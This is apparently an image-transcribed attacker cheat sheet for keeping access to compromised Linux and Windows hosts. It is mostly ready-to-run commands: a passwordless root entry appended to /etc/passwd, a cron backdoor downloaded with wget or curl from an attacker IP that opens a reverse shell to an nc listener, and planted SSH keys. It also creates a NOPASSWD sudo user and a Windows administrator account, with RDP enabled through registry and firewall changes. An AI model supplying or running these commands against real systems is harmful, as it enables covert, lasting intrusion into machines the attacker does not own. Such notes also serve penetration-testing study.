 # add a dummy user to /etc/passwd with no creds
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy

# cronjob backdoor via wget (maintaining persistence) 
1. fire up python server on /home/kali/Shared/Opt-Tools/shells  dir as attacker
2. fire up nc -lvnp 9999 on separate terminal as attacker
3. from target machine run wget http://IP/cron-task.sh && chmod +x cron-task.sh && ./cron-task.sh  (or) curl http://IP/cron-task.sh -o cron-task.sh && chmod +x cron-task.sh && ./cron-task.sh 
4. every minute task will run and we will obtain a rev shell connection

## ssh key methods for persistence

# we can copy our generated key to targets authorized_keys file and use it to ssh into target
ssh-keygen -f TARGET_USER  																		 (on attacker machine)
echo 'copy and pasted .pub file generated from attacker to target' >> $HOME/.ssh/authorized_keys (on target machine)
chmod 600 TARGET_USER									  										  (on attacker machine)
sudo ssh -i TARGET_USER TARGET_USER@IP                         										   (on attacker machine)

# linux method to add sudo user with root privs, add ssh keys for access, with creds pawnd:pawnd for persistence
1. adduser pawnd; echo "pawnd  ALL=(ALL) NOPASSWD:ALL" | sudo tee /etc/sudoers.d/pawnd  	(on target machine)
2. cd /home/pawnd; mkdir .ssh; chmod 700 .ssh; cd .ssh;                                    (on target machine)
3. sudo ssh-keygen /home/pawnd/.ssh/id_rsa 													(on target machine)
4. copy and paste id_rsa > pawnd file on attacker machine                                   (as attacker machine)
5. sudo ssh -i pawnd pawnd@10.10.110.100                         	                  	  (as attacker machine)


# windows method to create a new user with RDP access for evilwinRM or rdp GUI access
net user pawnd pawnd /add
net localgroup Administrators pawnd /add
net localgroup "Remote Management Users" pawnd /add

# after creating a new user account run commands if needed to bypass firewall
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set service type = remotedesktop mode = enable
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
		